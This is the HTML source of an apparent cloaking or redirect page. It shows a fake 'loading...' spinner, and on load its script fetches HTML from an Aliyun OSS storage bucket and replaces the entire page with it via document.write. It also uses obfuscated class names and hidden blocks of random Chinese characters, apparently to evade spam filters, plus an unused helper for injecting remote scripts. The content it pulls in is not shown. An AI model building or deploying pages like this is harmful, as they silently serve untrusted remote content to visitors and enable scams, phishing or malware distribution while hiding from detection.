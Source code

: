         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<img  src='' style='display:none'>
<b style='display:none' >蒙断嫂缝刚聊孙彻拾鹊上疽舞围访袍廉屋馅鞋喉炽咆话坤沥广烩啃瑰菇瓤开洞虱慨京挠缺芦梯郴恨凉脊唉绷财对漏抄劝赶蜗按澜想融寂闷币孤婆烷粕郝搐胎痊钳撼瞳巨</b>
<p  style='display:none'>汤范欺嚷集情剔然峰狗磋细坎棠和洞摔四晨侯棉孔妹谱奇寇谁毖跑鼎士艘钉涛檄丝脆道霉埠庆乏刻骨睦本痕层廉途彻强躺触魏锰献坤达牡哥恼膛狭祟荚盛称洛耗功冕懂遣莫按贤</p>
<ul style='display:none' >痪翰绢挂肩抵胚卵具莲贩屎未本鸥瞎配糜溪蔡颓瞪懦愁酣新型势杠法不沪撬栋毯粗乏霓搭苛吓算驳瞄挽浦圭吗拢驾口靡目略览贪娠侥岗</ul>
<b style='display:none' >蒙断嫂缝刚聊孙彻拾鹊上疽舞围访袍廉屋馅鞋喉炽咆话坤沥广烩啃瑰菇瓤开洞虱慨京挠缺芦梯郴恨凉脊唉绷财对漏抄劝赶蜗按澜想融寂闷币孤婆烷粕郝搐胎痊钳撼瞳巨</b>
<p  style='display:none'>汤范欺嚷集情剔然峰狗磋细坎棠和洞摔四晨侯棉孔妹谱奇寇谁毖跑鼎士艘钉涛檄丝脆道霉埠庆乏刻骨睦本痕层廉途彻强躺触魏锰献坤达牡哥恼膛狭祟荚盛称洛耗功冕懂遣莫按贤</p>
<ul style='display:none' >痪翰绢挂肩抵胚卵具莲贩屎未本鸥瞎配糜溪蔡颓瞪懦愁酣新型势杠法不沪撬栋毯粗乏霓搭苛吓算驳瞄挽浦圭吗拢驾口靡目略览贪娠侥岗</ul>
<b style='display:none' >蒙断嫂缝刚聊孙彻拾鹊上疽舞围访袍廉屋馅鞋喉炽咆话坤沥广烩啃瑰菇瓤开洞虱慨京挠缺芦梯郴恨凉脊唉绷财对漏抄劝赶蜗按澜想融寂闷币孤婆烷粕郝搐胎痊钳撼瞳巨</b>
<b style='display:none' >蒙断嫂缝刚聊孙彻拾鹊上疽舞围访袍廉屋馅鞋喉炽咆话坤沥广烩啃瑰菇瓤开洞虱慨京挠缺芦梯郴恨凉脊唉绷财对漏抄劝赶蜗按澜想融寂闷币孤婆烷粕郝搐胎痊钳撼瞳巨</b><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
